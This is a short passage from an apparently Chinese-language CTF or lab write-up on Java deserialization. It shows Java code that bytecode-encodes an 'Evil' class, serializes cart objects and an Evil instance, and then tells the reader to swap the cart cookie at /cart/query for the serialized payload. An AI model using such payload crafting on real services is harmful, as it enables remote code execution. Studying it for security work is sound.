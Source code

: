 ```java
        String bytes = Base64.getEncoder().encodeToString(ClassPool.getDefault().get(Evil.class.getName()).toBytecode());
        fileMap.put("Evil.class", Base64.getDecoder().decode(bytes));
        toAdd.setSkuDescribe(fileMap);

        String oldCartStr = Serializer.serialize(cart);
        String skus = Serializer.serialize(toAdd);

        System.out.println(oldCartStr);
        System.out.println(skus);
        Evil evil = new Evil();
        System.out.println(Serializer.serialize(evil));
    }
}
```

![image-20230603135554981](../.gitbook/assets/image-20230603135554981.png)

再访问`/cart/query`，把Cookie中的cart改成`Evil`序列化的结果

![image-20230603135647152](../.gitbook/assets/image-20230603135647152.png)
